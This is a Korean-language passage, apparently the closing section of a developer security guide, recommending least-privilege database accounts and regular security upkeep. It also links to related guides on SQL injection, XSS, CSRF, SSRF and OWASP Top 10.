데이터베이스 사용자 권한도 마찬가지다. 애플리케이션 DB 계정이 `DROP TABLE` 권한까지 가지고 있을 이유가 없다. SELECT/INSERT/UPDATE/DELETE만 주고, DDL은 별도 마이그레이션 계정으로 분리해라. 만약 SQL Injection이 뚫려도 테이블이 통째로 날아가는 일은 막을 수 있다.

## 마무리

보안은 한 번 짜고 끝나는 게 아니다. 라이브러리에 새 취약점이 발견되고, 새로운 공격 기법이 나오고, 우리 코드에도 새 기능이 추가되면서 새 구멍이 생긴다. 정기적으로 의존성을 업데이트하고, 코드 리뷰에서 보안 관점을 빠뜨리지 않고, OWASP Top 10이 갱신될 때마다 한 번씩 점검하는 습관이 필요하다.

이 문서에서 다룬 항목별 깊은 내용은 같은 디렉토리의 [SQL_Injection.md](SQL_Injection.md), [XSS.md](XSS.md), [CSRF.md](CSRF.md), [SSRF.md](SSRF.md), [API_Input_Validation.md](API_Input_Validation.md), [CORS_and_Security_Headers.md](CORS_and_Security_Headers.md), [OWASP_Top_10.md](OWASP_Top_10.md) 문서를 참고해라.
